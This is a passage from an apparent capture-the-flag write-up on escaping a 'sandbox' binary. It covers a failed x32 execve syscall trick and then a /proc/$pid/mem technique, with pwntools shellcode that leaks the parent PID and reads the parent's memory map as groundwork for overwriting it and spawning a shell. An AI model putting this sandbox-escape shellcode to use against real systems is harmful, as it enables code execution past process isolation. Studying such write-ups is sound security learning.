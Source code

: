 Combining what we know now, using 0x40000208, as the value for eax, execve should be invoked, and the parent process should catch it as 0x40000208. Sadly, this syscall doesn't work on my docker environment. I'll try to find a fix later.

<b>3. Write to /proc/$pid/mem (success)</b><br>
The last thing I tried was the /proc/$pid/mem file. This file (abstractly) contains the entire program memory of a certain process during runtime. This file is writable, which means we can write whatever we what to a certain processes program memory even during runtime. This way, we can write shellcode, change pointers, and many more just by writing to this file.

My idea was as so, write to the parent processes (this being the <span style="color:#00ffff">sandbox</span> binary) program memory and call execve using a one_gadget.

First, we need to know what the parent processes PID is. This can be done by reading the /proc/self/stat file of the child process. The fourth number is the PPID (It's actually the second, but lol it worked for me, atleast locally, I believe remotely it should be the second).

```python
sc = '''
mov rax, 0
mov rdi, 0
mov rsi, r13
mov rdx, 0x1000
syscall
'''
sc += shellcraft.pushstr('/proc/self/stat')
sc += shellcraft.open('rsp', 0, 0)
sc += shellcraft.read('rax', 'rsp', 0x200)
sc += shellcraft.write(1, 'rsp', 0x200)

sc += '''
jmp r13
'''
shellcode = '\x90'*80 + asm(sc).ljust(0x200, '\x90')
p.sendline(shellcode)

## PPID LEAK
p.recvuntil('R ')
p.recvuntil(' ')
p.recvuntil(' ')
PPID = int(p.recvuntil(' '))
print PPID
```

Second, I need to get the parent processes memory mapping. This can be done by reading the /proc/$pid/maps file.

```python
sc = '''
mov rax, 0
mov rdi, 0
mov rsi, r13
mov rdx, 0x1000
syscall
'''
sc += shellcraft.pushstr('/proc/{}/maps'.format(PPID))
sc += shellcraft.open('rsp', 0, 0)
sc += shellcraft.read('rax', 'rsp', 0xa00)
sc += shellcraft.write(1, 'rsp', 0xa00)

sc += '''
jmp r13
'''
shellcode = '\x90'*80 + asm(sc).ljust(0x200, '\x90')
p.sendline(shellcode)

p.recvuntil('sandbox')
```